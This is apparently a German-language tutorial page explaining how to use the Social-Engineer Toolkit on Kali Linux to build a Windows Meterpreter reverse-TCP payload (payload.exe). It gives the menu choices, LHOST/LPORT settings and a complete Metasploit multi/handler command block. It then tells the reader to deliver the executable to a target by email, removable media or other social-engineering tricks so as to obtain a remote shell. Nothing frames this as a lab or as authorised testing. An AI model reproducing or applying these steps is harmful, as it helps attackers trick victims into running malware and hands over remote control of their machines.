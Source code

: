 # Bassics

**1. SET starten**

Öffne in Kali Linux ein Terminal und starte SET mit Root-Rechten:

```bash
sudo setoolkit
```

***

#### 2. Angriffsmethode auswählen

Im Hauptmenü von SET wählst du die Option für Social-Engineering-Angriffe. Je nach SET-Version gibt es unterschiedliche Menüpunkte. Häufig findest du folgende Option:

* **"Social-Engineering Attacks"**\
  Anschließend wählst du den Menüpunkt, der es dir ermöglicht, einen Payload zu generieren und gleich einen Listener zu starten. Dies kann beispielsweise **"Create a Payload and Listener"** oder **"Infectious Media Generator"** heißen.

Falls deine SET-Version direkt eine Option zur Payload-Erzeugung bietet, wähle diese aus.

***

#### 3. Payload-Typ festlegen

Sobald du im Payload-Generator bist, wirst du gefragt, welchen Payload-Typ du verwenden möchtest. Für eine Meterpreter TCP Shell auf einem Windows-System wähle:

```plaintext
windows/meterpreter/reverse_tcp
```

Manche SET-Versionen bieten eine Liste an, in der du den entsprechenden Payload (z. B. „meterpreter\_reverse\_tcp“) auswählen kannst.

***

#### 4. Netzwerkeinstellungen konfigurieren

Du wirst nun aufgefordert, die Verbindungsparameter einzugeben:

* **LHOST:** Gib hier die IP-Adresse ein, an die sich der Payload zurückverbindet (z. B. `192.168.53.197`).
* **LPORT:** Gib den gewünschten Port ein (z. B. `4444`).

Stelle sicher, dass auf deinem System keine Firewall den Zugriff auf diesen Port blockiert.

***

#### 5. Payload generieren

Nachdem du alle Parameter eingegeben hast, bestätigt SET deine Eingaben und beginnt mit der Erzeugung des Payloads. Der generierte Payload wird als ausführbare Datei (z. B. **payload.exe**) gespeichert. In der Ausgabe von SET wird in der Regel der Speicherort angezeigt (häufig im SET-Verzeichnis oder in einem Unterordner wie `/root/.set/`).

***

#### 6. Listener starten

Oft bietet SET an, nach der Payload-Erzeugung direkt einen Listener zu starten. Bestätige diese Option, um automatisch einen Metasploit-Listener mit den zuvor angegebenen Einstellungen zu öffnen.

Falls dies nicht automatisch geschieht, kannst du in einem neuen Terminal manuell einen Multi/Handler in Metasploit starten:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.53.197
set LPORT 4444
exploit
```

Damit wartest du darauf, dass der Payload eine Verbindung zu deinem Listener aufbaut.

***

#### 7. Den Payload auf das Zielsystem bringen

Nun hast du den **payload.exe** generiert. Überlege dir, wie du diesen an das Zielsystem verteilen möchtest – sei es per E-Mail, über Wechseldatenträger oder über andere Social-Engineering-Techniken.

***

#### 8. Verbindung erhalten

Sobald das Zielsystem den Payload ausführt, wird eine Verbindung zu deinem Listener hergestellt und du erhältst eine aktive Meterpreter-Shell. Diese kannst du dann nutzen, um weitere Informationen über das System abzurufen oder weitere Aktionen durchzuführen.

####
